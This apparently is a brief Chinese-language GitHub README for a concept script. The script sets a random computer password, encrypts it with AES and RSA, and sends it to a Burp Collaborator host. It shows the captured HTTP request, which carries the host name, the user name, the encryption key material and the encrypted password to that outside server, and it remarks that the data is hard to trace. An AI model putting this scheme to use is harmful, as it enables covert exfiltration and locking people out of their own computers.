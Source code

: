 # rsa_encrypt
## 计算机密码随机加密 概念脚本
设想下，使用随机数生成计算机密码，并使用AES+RSA公钥加密生成的随机数密码，发送到burp collaborator client。
burp collaborator client可以记录发送的详细数据，如下：
```python
POST /11.txt HTTP/1.1
Host: oxpx4jh2y80jixiSaxc5pmyiu90zoo.burpcollaborator.net
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
INFO: NAME=LAPTOP-6PB1HSVN&USER=administrator
Content-Length: 427

AESKEY=b'zYnNqBf1APMjXZGTR2wyLrD0cupEQF6J'&AESIV=b'Pi4c9S2uGmRdFqwY'&RSAENCRYPT=b'YJ0Oz2aEqEmIcZ4azdHnicIkXaRJAML/2AD0aiG1D3VmQbXhAYIiYQz/wcq0e9yk2qyaMomai6Pc7/LG1+FN+KsFo1O4syDmaUos1xc6R5iOWgAhXLLpRnk8haSkDxHw3K6+yvlIyDySgTEv9FJZv6lBSRSSPW/n3REhgH1jk4D+Hi9FXe5gyR9JNqkjdXcEQn+RCsKwTB2X+l9AEOGpkfP6mOjz2jG8oS8lycbZdz0KzvdAeE/5oYGXUhFyDPO+f0vDuawUmw7Hpmk4jlTdzIyTZaGlutqSDM2a3/UBYjzkC8YjzvwtrExtWW36hp8DVsItM8XVygPu4nLhHZielQ=='

```
想要全程追踪、解密数据难度较大

